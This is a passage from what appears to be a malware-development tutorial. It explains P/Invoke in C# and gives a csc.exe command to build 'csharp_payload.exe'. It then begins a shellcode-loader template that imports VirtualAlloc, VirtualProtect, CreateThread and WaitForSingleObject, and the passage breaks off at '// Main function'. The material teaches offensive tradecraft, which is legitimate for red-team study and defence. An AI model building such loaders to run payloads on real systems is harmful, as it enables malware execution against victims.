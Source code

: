 In this example above, we use the `[DllImport("user32.dll"]` code to load the `MessageBox` API function from the `user32.dll` DLL. We can confirm that this function is within the specific DLL by looking at the [MessageBox documentation here](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messagebox), shown below.

<img src="/assets/images/maldev101/messagebox-docs.png" alt="messagebox-docs" width="400" height="300"/>

Now we can use this PInvoke technique to import our required Windows API functions for executing shellcode with unmanaged code!<br />

To create an EXE in C#, we can use the following code template to launch shellcode and compile it with `csc.exe` using the following command (*note that csc.exe is part of the .NET Framework*):<br />
`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:exe /platform:x64 /out:csharp_payload.exe csharp_EXE.cs`

```csharp
using System;
using System.Text;
using System.Runtime.InteropServices;

namespace Csharp
{
    class Program
    {
        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static UInt32 PAGE_READWRITE = 0x04; //RW
        static UInt32 PAGE_EXECUTE_READ = 0x20; //RX

        // Main function
```